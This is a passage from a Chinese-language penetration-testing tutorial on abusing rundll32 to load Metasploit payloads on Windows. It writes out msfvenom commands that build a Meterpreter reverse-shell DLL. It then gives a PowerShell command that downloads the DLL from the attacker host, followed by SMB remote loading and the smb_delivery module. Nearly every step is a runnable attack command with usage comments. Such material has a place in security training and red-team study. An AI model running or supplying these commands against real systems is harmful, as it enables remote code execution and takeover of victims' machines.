 ```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=9999 -f dll > 1.dll
#-a为指定系统位数（32or64），--platform指定操作系统，-p为指定payload，LHOST指定接收shell的IP，LPORT设置为攻击机监听端口，-f指定输出格式，> 后面为文件名

#然后启动msf，用handler开启监听
msfconsole
msf > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.106 -P 9999
```

**靶机操作**

需要管理员权限开启cmd

```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.106:8000/1.dll',\"c:\1.dll\")"
#这里DownloadFile后面的网址在攻击机执行完msfvenom命令后会有提示，按照提示更改即可
rundll32 shell32.dll,Control_RunDLL C:\1.dll
```

#### 利用smb远程加载

**攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=9999 -f dll -o 1.dll

impacket-smbserver dll /root/#这里的/root/是smb服务的目录
```

**靶机操作**

```bash
rundll32.exe shell32.dll,Control_RunDLL \\192.168.1.106\dll\1.dll
```

靶机执行完操作后在攻击机的msf中可以收到会话，输入`sessions`后查看对应的session id，然后通过`sessions [id]`命令获取shell。

### Metasploit SMB Delivery

通过Metasploit的SMB Delivery模块发起Rundll32攻击

**攻击机操作**

```bash
msfconsole
msf > use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.106
msf exploit(windows/smb/smb_delivery) > run –j
```

**靶机操作**

```bash
rundll32.exe \\192.168.1.106\GylDS\test.dll,0 #路径在攻击机执行run命令后会得到
```

#### 利用Rundll32加载hta反弹shell

